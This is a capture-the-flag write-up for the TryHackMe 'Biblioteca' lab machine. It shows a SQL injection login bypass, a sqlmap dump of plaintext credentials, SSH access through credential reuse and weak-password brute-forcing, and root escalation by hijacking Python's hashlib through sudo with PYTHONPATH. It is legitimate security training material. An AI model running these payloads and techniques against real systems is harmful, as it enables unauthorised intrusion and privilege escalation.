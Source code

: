 ```yaml
---
title: TryHackMe - Biblioteca
author: 0
date: 2023-03-31 17:00:00 +0800
categories: [thm, machine]
tags: [sql injection, credential reuse, sudo -l, python library hijacking]
render_with_liquid: false
---
```

# Biblioteca - Medium
> Shhh. Be very very quiet, no shouting inside the biblioteca.

> Hit 'em with the classics.

### Enumeration
```bash
$ nmap -sC -sV  -A  -oN nmap_result 10.10.66.77
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 000bf9bf1d49a6c3fa9c5e08d16d8202 (RSA)
|   256 a10c8e5df07fa532b2eb2f7abfedbf3d (ECDSA)
|_  256 9eefc90afce99eede32db130b65fd40b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap result shows the webserver running on port 8000. When we connect to this port, we can see a login screen. Thinking about the introduction "Hit 'em with the classics.", hints that this is could be an authentication bypass through SQL injection.

### Foothold
 
By using `username=username&password=' or '1'='1` we can bypass the authentication form.

When logged, you only get an index screen that greets a user called "smokey".
We can dump the database by using sqlmap
```bash
$ sqlmap -r request  --dump
Database: website
Table: users
[2 entries]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
| 2  | test@hotmail.com  | test           | test     |
+----+-------------------+----------------+----------+
```

We can use these credential to ssh into the server. This account is very restricted but upon viewing the `/home/` dir we notice there is another user called "hazel". After some trial and error we managed to get access into the "hazel" account by bruteforcing as the account has the password "hazel".

### Privelege Escalation

Both `/home/hazel/user.txt` and `/root/root.txt` flags require root access.
By running `sudo -l`, we can see that hazel can run `sudo /usr/bin/python3 /home/hazel/hasher.py` without needing the root password.
```bash
hazel@biblioteca:~$ sudo -l
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

We can see the `hasher.py` script imports the `hashlib` library. We can perform privilege escalation via "Python Library Hijacking"
```bash
hazel@biblioteca:~$ cat hasher.py 
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We can run `python3 -c 'import sys; print("\n".join(sys.path))'` to see the order of paths that searches in for its libraries. 
```bash
hazel@biblioteca:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

But this is not important to us as we can just force the `PYTHONPATH` to be where we save our modified version of the `hashlib.py` library.

We move to the `/tmp` dir as we don't have write permissions in our home directory. We create our version of the `hashlib.py` library that will be executed as sudo and calls `/bin/bash`. After running the script with `PYTHONPATH=/tmp` we managed to get root.

```bash
hazel@biblioteca:~$ cd /tmp
hazel@biblioteca:/tmp$ vi hashlib.py
hazel@biblioteca:/tmp$ hashlib.py 
import os

os.system('/bin/bash')
hazel@biblioteca:/tmp$ sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
root@biblioteca:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@biblioteca:/tmp# whoami
root
root@biblioteca:/tmp# cat /root/root.txt
THM{**REDACTED**}
root@biblioteca:/tmp# cat /home/hazel/user.txt
THM{**REDACTED**}
root@biblioteca:/tmp# 
```
